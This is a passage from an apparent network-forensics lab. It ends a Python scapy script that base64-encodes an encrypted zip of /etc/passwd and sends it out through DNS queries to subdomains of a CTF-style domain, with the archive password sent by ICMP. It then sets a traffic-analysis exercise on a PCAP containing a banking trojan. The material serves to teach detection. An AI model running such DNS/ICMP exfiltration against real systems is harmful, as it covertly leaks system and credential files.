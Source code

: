 ```python
    mesg = base64.b64encode(mesg)
    n = 20
    list_split = [mesg[i:i+n] for i in range(0, len(mesg), n)]
    
    for i in range(0, len(list_split)):
        print(str(list_split[i])[2:-1])
        part = ("%s.makictf.wtf" % str(list_split[i])[2:-1])
        sr1(IP(dst=destIP)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=part)),verbose=0)

if __name__ == "__main__":
    key_archive = "The key of the encrypted archive is: CyberMoocMooc"
    
    f = open('passwd.zip','rb')
    enc_archive = f.read()
    f.close()
   
    ping_exf(key_archive)
    dns_exf(enc_archive)
```

This script will convert a file to base64, then send it to fictitious subdomains. Just before, a string in hex is sent by ICMP. As part of our TP, I propose you to make an encrypted zip archive and send it by DNS, the key would be sent by ICMP.

```bash
$ zip -e passwd.zip /etc/passwd
Enter password: [Enter your password]
```

It is now time to run Wireshark and the exfil_gen.py script. When the script is completed, then we can stop Wireshark capture and save the traffic into a PCAP file.

## Trojan horse

In this practical exercise, it will not be a CTF challenge task. It will be a real forensic case, with a real bad malware inside it. __Then be careful with this PCAP, it contains a banking trojan__.

### Statement

The PCAP file can be download here:

|Filename|Hash|Download link|
|--------|----|-------------|
|2018-11-13-traffic-analysis-exercise.pcap|221168dc0865c145fe977b2c373022f3|https://tinyurl.com/TP-malicious|

This practical exercise comes from: https://www.malware-traffic-analysis.net/2018/11/13/index.html

And here is the questions to answer:

* What was the date and time the malicious traffic started?
* What is the MAC address of the infected Windows host?
* What is the host name of the infected Windows host?
* What is the user account name used on the infected Windows host?
* What URL in the pcap returned a Windows executable file?
* What is the size of the Windows executable file from that URL?
* What is the SHA256 hash of the Windows executable file from that URL?
* What type of malware is the Windows executable returned from that URL?
